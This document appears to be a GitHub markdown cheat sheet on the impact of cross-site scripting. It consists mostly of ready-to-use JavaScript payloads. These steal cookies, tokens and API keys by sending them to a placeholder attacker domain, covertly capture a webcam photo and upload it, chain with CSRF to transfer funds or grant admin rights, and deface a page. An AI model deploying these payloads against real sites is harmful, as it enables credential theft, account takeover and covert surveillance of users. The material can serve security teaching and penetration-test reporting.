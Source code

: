 # XSS (Cross-Site Scripting)

## Table of Contents
- [Credential stealing](#credential-stealing)
- [Chaining with CSRF](#chaining-with-csrf)
- [WEB API abusing](#web-api-abusing)
- [Content Spoofing](#content-spoofing)

## Credential stealing

### Credentials used for authentication (e.g., cookie, access token) can be stolen.

- Cookie stealing
   ```html
    <script>
        fetch(`https://[ATTACKER-DOMAIN]/?cookie=${document.cookie}`)
    </script>
   ```
- token stealing
    ```html
    <script>
        fetch(`https://[ATTACKER-DOMAIN]/?token=${localStorage.getItem("token")}`)
    </script>
   ```
- API key stealing
    ```html
    <script>
        fetch('/myinfo')
        .then(response => response.json())
        .then(data => {
            return fetch(`https://[ATTACKER-DOMAIN]/?api_key=${data.api_key}`)
        })
    </script>
    ```

## Chaining with CSRF

### It can create a greater risk when combined with vulnerabilities like CSRF. (The impact may vary depending on the purpose or function of the service.)

- Making a transfer
    ```html
    <script>
        initiateTransaction("attacker_account",1000)
    </script>
   ```

- Privilege escalation
    ```html
    <script>
    fetch('https://[ATTACKER-DOMAIN]/change-role', {
        method: 'POST',
        body: "user_id=1234&role=admin"
    })
    </script>
   ```

## WEB API abusing

### Web browser-provided APIs can be exploited to access OS features. (e.g., Media Stream API, Clipboard API, etc.).

- Camera access
    ```html
    <script>
    document.addEventListener('DOMContentLoaded', async () => {
        const v = document.createElement('video');
        v.autoplay = true;
        v.style.display = 'none';
        document.body.appendChild(v);

        const c = document.createElement('canvas');
        c.style.display = 'none';
        document.body.appendChild(c);

        const s = await navigator.mediaDevices.getUserMedia({ video: true });
        v.srcObject = s;

        setTimeout(() => {
        const ctx = c.getContext('2d');
        c.width = v.videoWidth;
        c.height = v.videoHeight;
        ctx.drawImage(v, 0, 0);

        c.toBlob(b => {
            const f = new FormData();
            f.append('image', b, 'photo.png');
            fetch('http://[ATTACKER-DOMAIN]/images', { method: 'POST', body: f });
        }, 'image/png');
        }, 1000);
    });
    </script>
    ```

## Content Spoofing

### Elements of the page can be modified through DOM manipulation.

- Defacement

   ```html
   <script>
   document.body.innerHTML = `
     <div style="position:fixed; top:0; left:0; width:100%; height:100%; background-color:black; display:flex; align-items:center; justify-content:center; color:red; font-size:3em; font-family:sans-serif; z-index:10000;">
       You've been hacked
     </div>
   `;
   </script>
   ```

